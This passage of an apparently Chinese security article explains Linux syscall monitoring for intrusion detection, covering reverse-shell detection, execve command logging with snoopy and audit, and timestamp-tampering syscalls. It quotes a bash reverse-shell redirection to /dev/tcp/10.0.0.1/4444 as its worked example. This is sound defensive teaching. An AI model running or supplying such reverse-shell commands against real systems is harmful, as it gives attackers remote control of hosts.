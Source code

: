
反弹shell，攻击者在控制端执行tcp/udp监听，并通过socket传递给攻击端的控制端。其主要原理为将标准输入以及标准输出是否指向一个socket或pipe
以最简单的bash反弹为例：

Linux bash是从左向右读取这条命令的，首先系统会创建bash -i子进程，并分配文件描述符：
![img](images/1594610005.png!small)

当解析到 >& /dev/tcp/10.0.0.1/4444 标准输出与标准错误重定向符时，文件描述符的指向变更为：

![img](images/1594610020.png!small)

当解析到0>&1，标准输入复制到标准输出时，文件描述符的指向变更为：
![img](images/1594610032.png!small)

文件输入描述符以及文件输出描述符皆需要重定向到socket通道
![img](images/1594610048.png!small)![img](images/1594610058.png!small)
文件输入描述符以及文件输出描述符皆需要重定向到pipe
![img](images/1594610070.png!small)
从攻击的角度可以总结出，对进程，监控其标准输入以及标准输出是否指向一个socket或pipe，更 加需要关注的为具有可执行环境的文件，如bash、perl、python等
对应的syscall为socketcall

## 0x08:命令执行之syscall监控

snoopy轻量级的lib库，用来记录系统中所有执行过的命令以及参数，实际使用场景中结合snoopy和rsyslog收集所有主机的历史执行命令，snoopy 即是通过 preload 的方式在程序进行 execv() 和 execve() 系统调用的时候记录下所有需要的信息，audit同snoopy，通过监控execve系统调用，同样实现用户的操纵记录，大部分检测通过检测非ROOT用户执行的命令以及进行威胁建模。

对应的syscall为execve，对应的命令监控内容可以参考系列中的另外一篇：[ATT&CK矩阵linux系统实践/命令监控](https://www.freebuf.com/articles/articles/es/231784.html)

## 0x09:隐藏痕迹之系统设置之syscall监控

touch命令用于修改文件或者目录的时间属性，包括存取时间和更改时间。

反向跟踪隐藏痕迹中的修改的时间戳
![img](images/1594610110.png!small)
其对应的参考syscall为settimeofday、clock_settime 、adjtimex等

## 0x10:syscall监控小结


下表中根据分类总结列举了部分常用的syscall，无疑监控syscall带来的数据量是非常庞大的，以及对服务器的性能消耗也需要考虑，本文从攻击者角度考虑，采集攻击打点信息，只采集关注的数据，因文章篇幅，采集的syscall的攻击打点面未全面

![img](images/1594610125.png!small)

时刻保持学习，ctrl+c 和ctrl +v 的内容也不一样

![img](images/1594610147.png!small)